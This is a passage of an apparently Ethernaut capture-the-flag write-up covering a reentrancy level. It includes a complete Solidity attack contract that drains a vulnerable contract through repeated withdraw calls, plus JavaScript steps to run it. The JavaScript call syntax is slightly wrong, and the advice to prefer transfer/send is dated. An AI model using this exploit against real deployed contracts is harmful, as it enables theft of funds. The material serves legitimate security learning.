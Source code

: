 Key learnings:
- Understanding receive function's role: In target contract, receive function is core logic for receiving ETH. If receiver can't properly handle ETH transfer, transaction will fail.
- Defense suggestions: Avoid using low-level calls (like call) for transfers, can use transfer or send which automatically revert on transfer failure.
- In contract design, avoid relying on external contract behavior for core logic.
- Use modern contract frameworks (like OpenZeppelin's ReentrancyGuard) to implement secure reentry control

## 10. Re-entrancy ✅ [Medium]

This level tests understanding of re-entrancy:
- Reentrancy attack is when attacker exploits contract vulnerability to call a function multiple times during execution to gain more benefits.
- Attackers can use reentrancy attack to gain contract control

Attack steps:
1. Write attack contract
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import "./Reentrance.sol";

contract ReentranceAttack {
    Reentrance public target;
    address public owner;

    constructor(address payable _target) public {
        target = Reentrance(_target);
        owner = msg.sender;
    }

    // Call target contract's donate function
    function donate() public payable {
        target.donate{value: msg.value}(address(this));
    }

    // Launch attack
    function attack(uint256 _amount) public {
        target.withdraw(_amount);
    }

    // Reentry logic
    receive() external payable {
        if (address(target).balance > 0) {
            target.withdraw(msg.value);
        }
    }

    // Withdraw ether from attack contract
    function withdraw() public {
        require(msg.sender == owner, "Not the owner");
        payable(owner).transfer(address(this).balance);
    }
}
```
2. Call `donate()` function to send contract balance to attack contract
```js
await contract.donate{value: 1 ether}();
```
3. Call `attack()` function to launch attack
```js
await attackContract.attack(1 ether);
```